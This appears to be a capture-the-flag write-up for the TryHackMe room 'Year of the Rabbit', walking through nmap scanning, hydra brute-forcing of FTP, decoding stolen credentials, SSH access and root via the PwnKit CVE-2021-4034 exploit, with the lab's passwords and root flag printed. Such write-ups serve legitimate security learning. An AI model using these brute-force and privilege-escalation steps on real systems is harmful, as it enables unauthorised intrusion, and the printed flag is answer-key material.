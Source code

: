 ```yaml
---
title: "Year of the Rabbit"
date: 2022-08-30 10:00:40 +0530
categories: [TryHackMe, THM-Linux]
tags: [Machines,Linux]
image: /assets/img/yearOfRabbit/profile.png
---
```


This is the [tryhackme](https://tryhackme.com/room/yearoftherabbit) room with difficult level `easy`.

## Enumeration.
### nmap scanning.

**Command.**
```
 nmap -sC -sV 10.10.59.107 -oN nmap-scan 
```
**Results**
```
# Nmap 7.92 scan initiated Fri May 20 22:37:30 2022 as: nmap -sC -sV -oN nmap-scan 10.10.59.107
Nmap scan report for 10.10.59.107
Host is up (0.16s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.2
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 a0:8b:6b:78:09:39:03:32:ea:52:4c:20:3e:82:ad:60 (DSA)
|   2048 df:25:d0:47:1f:37:d9:18:81:87:38:76:30:92:65:1f (RSA)
|   256 be:9f:4f:01:4a:44:c8:ad:f5:03:cb:00:ac:8f:49:44 (ECDSA)
|_  256 db:b1:c1:b9:cd:8c:9d:60:4f:f1:98:e2:99:fe:08:03 (ED25519)
80/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.10 (Debian)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri May 20 22:38:15 2022 -- 1 IP address (1 host up) scanned in 45.31 seconds
```

### Burp-suit.

![image](/assets/img/yearOfRabbit/burp.png)

**Visit  the hidden directory**
```
GET /intermediary.php?hidden_directory=/WExYY2Cv-qU 
```
Then navigate to ``http://thm-machine-ip/WExYY2Cv-qU/``

This will lead us to the directory which has an image named as ``Hot_Babe.png.`` I renamed it to `bae.png.`
![image](/assets/img/yearOfRabbit/bae.png)

**Checking if there is any message in the image.**
```
└─$ strings bae.png
```
We found a message as shown below.


>message from image
>
>Eh, you've earned this. Username for FTP is ftpuser
One of these is the password:


## Brute-force ftp password.
```
└─$ hydra -l ftpuser -P "ftp-passwds" -s 21 -o "ftp-results" ftp://10.10.59.107 
```
**Result.**
```
password: 5iez1wGXKfPKQ
```

## Login to ftp server.

```
└─$ ftp 10.10.59.107
Connected to 10.10.59.107.
220 (vsFTPd 3.0.2)
Name (10.10.59.107:egovridc): ftpuser
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```

**List ftp files.**
```
ftp> ls 
229 Entering Extended Passive Mode (|||33780|).
150 Here comes the directory listing.
-rw-r--r--    1 0        0             758 Jan 23  2020 Eli's_Creds.txt
226 Directory send OK.
```

**Download  Eli's_Creds.txt from ftp server.**
```
ftp> get Eli's_Creds.txt
local: Eli's_Creds.txt remote: Eli's_Creds.txt
229 Entering Extended Passive Mode (|||12303|).
150 Opening BINARY mode data connection for Eli's_Creds.txt (758 bytes).
100% |*************************************************************************|   758      622.04 KiB/s    00:00 ETA
226 Transfer complete.
758 bytes received in 00:00 (4.46 KiB/s)
ftp> 
```

**Reading Eli's_Creds.txt.**
```
└─$ cat Eli\'s_Creds.txt 
+++++ ++++[ ->+++ +++++ +<]>+ +++.< +++++ [->++ +++<] >++++ +.<++ +[->-
--<]> ----- .<+++ [->++ +<]>+ +++.< +++++ ++[-> ----- --<]> ----- --.<+
++++[ ->--- --<]> -.<++ +++++ +[->+ +++++ ++<]> +++++ .++++ +++.- --.<+
+++++ +++[- >---- ----- <]>-- ----- ----. ---.< +++++ +++[- >++++ ++++<
]>+++ +++.< ++++[ ->+++ +<]>+ .<+++ +[->+ +++<] >++.. ++++. ----- ---.+
++.<+ ++[-> ---<] >---- -.<++ ++++[ ->--- ---<] >---- --.<+ ++++[ ->---
--<]> -.<++ ++++[ ->+++ +++<] >.<++ +[->+ ++<]> +++++ +.<++ +++[- >++++
+<]>+ +++.< +++++ +[->- ----- <]>-- ----- -.<++ ++++[ ->+++ +++<] >+.<+
++++[ ->--- --<]> ---.< +++++ [->-- ---<] >---. <++++ ++++[ ->+++ +++++
<]>++ ++++. <++++ +++[- >---- ---<] >---- -.+++ +.<++ +++++ [->++ +++++
<]>+. <+++[ ->--- <]>-- ---.- ----. <
```

The file is obfuscated  with brainfuck, so i decided to use online [brainfuck](https://www.dcode.fr/brainfuck-language) tool to decrypt.

**Results**
```
User: eli
Password: DSpDiM1wAEwid
```

## Login into Eli's machine by using ssh.

**ssh**
```
└─$ ssh eli@10.10.59.107 
```

>message from root 
>
>1 new message
>
>Message from Root to Gwendoline:
>"Gwendoline, I am not happy with you. Check our leet s3cr3t hiding place. I've left you a hidden message there"
>
>END MESSAGE
 
## User privilege escalation.

### Find secret message from root.
 
**s3cr3t**
```
eli@year-of-the-rabbit:~$ find /  -name *s3cr3t* 2>/dev/null
/var/www/html/sup3r_s3cr3t_fl4g.php
/usr/games/s3cr3t
```

**Reading the file.**
```
eli@year-of-the-rabbit:/usr/games/s3cr3t$ cat .th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly\! 
Your password is awful, Gwendoline. 
It should be at least 60 characters long! Not just MniVCQVhQHUNI
Honestly!

Yours sincerely
   -Root
```
It contains password for user gwendoline.

**Switch to user gwendoline.**
```
eli@year-of-the-rabbit:/usr/games/s3cr3t$ su gwendoline
Password: 
gwendoline@year-of-the-rabbit:/usr/games/s3cr3t$ whoami
gwendoline
```

## Root privilege escalation.

`CVE-2021-4034`
Send the files to the victim machine and run `make` then `exploit`
Results.

**Root user**
```
gwendoline@year-of-the-rabbit:~$ make
gcc -shared -o evil.so -fPIC evil-so.c
gcc exploit.c -o exploit
gwendoline@year-of-the-rabbit:~$ ls
evil.so  evil-so.c  exploit  exploit.c  Makefile  user.txt
gwendoline@year-of-the-rabbit:~$ ./exploit 
# cd /root
# ls
root.txt
# cat root.txt
THM{8d6f163a87a1c80de27a4fd61aef0f3a0ecf9161}
# 
```

**End.**